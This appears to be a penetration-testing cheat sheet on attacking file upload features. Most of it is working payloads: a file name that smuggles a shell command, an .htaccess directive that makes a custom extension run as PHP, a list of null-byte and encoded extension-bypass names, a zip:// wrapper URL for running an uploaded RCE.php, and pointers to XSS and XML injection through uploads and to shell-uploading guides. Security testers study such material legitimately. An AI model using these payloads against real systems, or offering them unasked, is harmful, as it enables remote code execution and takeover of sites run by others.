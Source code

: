 ### **File Upload Vulnerabilities & Techniques**

#### **1. Basic Techniques**
- **Check if site use Blacklist or white list by upload file.LOL** 
- File Name Manipulation:
  - 02.mp3";id;#
  - Try uploading a text file with .png extension.
  - Try the same with .svg and inject XML: Video Tutorial (https://youtu.be/Iq6ThCmUTOU?si=-waZobykOkxOdf8L).
  - Try injecting XSS code in the file.

#### **2. Tools for Exploitation**
- Exif Tool: Manipulate metadata.
- jhead: Inject headers into image files.
- Video Tutorial: jhead (https://youtu.be/CmF9sEyKZNo?si=xpqlS0H2gpb7flmt).

#### **3. .htaccess File Manipulation**
- Add the following line to .htaccess:
  - AddType application/x-httpd-php .l33t
- Then upload a PHP file with .l33t extension.

#### **4. File Extension Bypass Techniques**
- file.jpg.{EXT}
- file.{EXT}.jpg
- file.{EXT}.xxxjpg
- file.{EXT}%00.jpg
- file.{EXT}\x00.jpg
- file.{EXT}%00
- file.{EXT}\x00
- file.{EXT}%20
- file.{EXT}%0d%0a.jpg
- file.{EXT}/
- file.{EXT}.\
- file.mp3\";id;#

#### **5. ZIP File Exploitation**
- Place RCE.php in a .zip file.
- Upload the .zip file.
- Access it via: http://www.target.com?file=zip://uploadedFile.zip%23RCE.php

#### **6. References**
- RCE Vulnerability in File Name: https://www.vaadata.com/blog/rce-vulnerability-in-a-file-name/
- Shell Uploading: https://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html
- File Upload Security Tips: https://security-tips.vincd.com/file-upload/
- Multipart Parsers Validation Bypass: https://blog.sicuranext.com/breaking-down-multipart-parsers-validation-bypass/

---
- https://0xcybery.github.io/blog/hacking-with-pdf##Introduction
- 
------------

---